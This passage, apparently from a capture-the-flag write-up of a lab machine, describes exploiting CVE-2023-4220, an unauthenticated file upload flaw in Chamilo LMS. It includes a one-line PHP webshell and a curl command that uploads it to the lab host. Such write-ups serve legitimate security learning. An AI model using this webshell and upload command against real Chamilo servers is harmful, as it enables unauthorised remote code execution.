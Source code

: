 ### Vulnerability Research

A quick search reveals the <span class="text-highlight-orange">**CVE-2023-4220**</span> vulnerability, allowing **unauthenticated file upload** via the `bigUpload.php` script.


## ⚙️ Phase 4 — Exploitation CVE-2023-4220

### Vulnerability Analysis

<div class="bg-red-50 dark:bg-red-900/20 p-6 rounded-xl border-l-4 border-red-500 my-4">
    <h4 class="text-xl font-bold text-red-600 dark:text-red-400 mb-3 flex items-center">
        <i class="fas fa-bug mr-2"></i>CVE-2023-4220 - File Upload RCE
    </h4>
    <div class="space-y-2 text-gray-700 dark:text-gray-300">
        <div class="grid md:grid-cols-2 gap-4">
            <div>
                <span class="font-semibold text-red-600 dark:text-red-400">Affected Application:</span> Chamilo LMS
            </div>
            <div>
                <span class="font-semibold text-red-600 dark:text-red-400">Type:</span> Remote Code Execution (RCE)
            </div>
        </div>
        <div>
            <span class="font-semibold text-red-600 dark:text-red-400">CVSS Score:</span> 9.8 (Critical)
        </div>
        <div class="mt-4">
            <span class="font-semibold text-red-600 dark:text-red-400">Description:</span><br>
            The <code>bigUpload.php</code> script does not properly validate uploaded file names. An attacker can therefore upload a malicious <code>.php</code> file and execute arbitrary commands server-side without authentication.
        </div>
    </div>
</div>

### Proof of Concept

**Webshell Generation:**

```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

**Upload via cURL:**

```bash
curl -F 'bigUploadFile=@shell.php' \
'http://lms.permx.htb/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported'
```

<div class="bg-green-100 dark:bg-green-900/20 border-l-4 border-green-500 p-4 my-4 rounded-r-lg">
    <p class="text-green-800 dark:text-green-200">
        <i class="fas fa-check-circle mr-2 text-green-500"></i>
        <strong>Result:</strong> File uploaded successfully
    </p>
</div>
